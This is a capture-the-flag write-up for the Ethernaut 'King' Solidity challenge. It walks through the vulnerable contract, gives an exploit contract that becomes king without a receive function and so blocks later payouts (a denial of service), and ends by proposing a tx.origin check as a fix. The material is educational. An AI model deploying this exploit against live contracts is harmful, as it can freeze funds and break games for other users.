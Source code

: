 +++
date = '2024-10-23T01:03:39+05:30'
draft = false
title = 'King'
categories=["Blockchain"]
series="Ethernaut"
tags=["Denial of Service"]
+++

# Writeup for King

- Hello h4ck3r, welcome to the world of smart contract hacking. Solving the challenges from Ethernaut will help you understand Solidity better. For each challenge, a contract will be deployed, and an instance will be provided. Your task is to interact with the contract and exploit its vulnerabilities. Don't worry if you are new to Solidity and have never deployed a smart contract before. You can learn how to deploy a contract using Remix [here](https://youtu.be/3xNFZI8Ste4?si=i3cWN87OpX85zp6k).

### Challenge

- The contract below represents a very simple game: whoever sends an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! It's as ponzi as it gets xD

- Your goal is to break this game.

- When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self-proclamation.

### Contract Explanation

{{< collapsible "Click to view source contract" >}}

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}

```

{{< /collapsible>}}

If you feel like you understand the contract, you can move to the [exploit](#exploit) part. If you are a beginner, please go through the Contract Explanation as well. It will help you understand Solidity better.

The contract has three state variables: `king`, `prize`, and `owner`. `king` represents the address of the current king, `prize` represents the ether sent by a person to become the king, and `owner` represents the owner of this contract.

```solidity
constructor() payable {
    owner = msg.sender;
    king = msg.sender;
    prize = msg.value;
    }
```

The constructor initializes `owner` and `king` to `msg.sender`, and `prize` to `msg.value`. Initially, the deployer of the contract will be the `king` and `owner` of this contract.

```solidity
receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
    }
```

The `receive()` function is a special function in Solidity. It will be triggered when you send some ether to the contract without calling any function.

In the function logic, it checks if the `msg.value` (ether) sent during the call is greater than or equal to the prize of the current king, or if the `msg.sender` (caller) is the owner of the contract. If either of these conditions is true, the execution continues, otherwise, it reverts.

Then, it transfers the ether deposited by the old king to the old king because once the `require()` statement is passed, the king will be changed. So, when the king changes, the old king needs to receive the amount of ether deposited by them to become king. Once the transfer is done, the king is set to `msg.sender` (caller) and the prize is set to `msg.value` (the ether deposited by the new king).

The function `_king()` is a public `view` function that returns the address of the current `king`.

### Exploit

The contract works based on a simple logic: whoever sends more ether than the current king becomes the new king, and the contract sends the amount of ether deposited by the old king to them.

If we become the king using an `Externally Owned Account` (EOA), everything works as normal. However, if we make a smart contract become the king, the King contract will work as expected only if the contract is able to receive the ether when a new person becomes the king.

We know that a contract can receive ether in two ways: one way is through defining a normal payable function, and the other way is by having a `receive()` function. See the example below to understand.

```solidity

contract Receive_Ether {

 function Receive_ether() public payable {
    // This function allows the contract to receive Ether when it is called.
    // The 'payable' keyword is necessary for the function to accept Ether.
    // If the function is not marked as 'payable', any attempt to send Ether will cause the transaction to revert.

    // The logic of this function can be anything. The contract will receive ether irrespective of the logic.
    }

    receive() external payable {
    // This receive() function allows the contract to receive Ether when it is sent directly to the contract address.
    // This function is called when no other function matches the call data.
    }
}

```

Now, if we create an exploit contract without a `receive()` function and make the contract the king, the challenge will be solved.

{{< collapsible "Click to view Exploit contract" >}}

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {King} from "../src/contracts/King.sol";

contract ExploitKing {
    King public king;

    constructor(address payable _king) {
        king = King(_king);
    }

    function Exploit() public payable {
        (bool success,) = address(king).call{value: msg.value}("");
        require(success, "Exploit Failed");
    }
}

```

{{< /collapsible>}}

Now, we just need to deploy the contract and call the `Exploit()` function with some ether.

```solidity
function Exploit() public payable {
    (bool success,) = address(king).call{value: msg.value}("");
    require(success, "Exploit Failed");
}
```

Our task is to know the amount of ether deposited by the current king and send more ether than the current king.

Now, it's time to open the console. Open the **King** challenge and press `ctrl`+`shift`+`j` to open the console.

```javascript
> (await contract.prize()).toString()
```

This will return the ether deposited by the current king, which is `1000000000000000` wei. We need to send more than `1000000000000000` wei to become the king. We can send `1000000000000001` wei to become the king.

Open Remix and deploy the exploit contract. When calling the `Exploit()` function, we need to send `1000000000000001` wei.

{{< centered-image "/Ethernaut/King/img1.png" "My Centered Image" >}}

We can find the `VALUE` section in the Remix deployment options. We need to enter `1000000000000001` in the `VALUE` field and call the `Exploit()` function.

That's it! Once we call the `Exploit()` function, the challenge will be solved.

### Key Takeaways

When writing a contract, if the logic depends on sending Ether We need to ensure that, it is sent to an Externally Owned Account (EOA).

In this challenge, we can fix this exploit by checking if `tx.origin` is `msg.sender `.

```solidity
    receive() external payable {
    require(tx.origin==msg.sender);
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
 }
```

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>
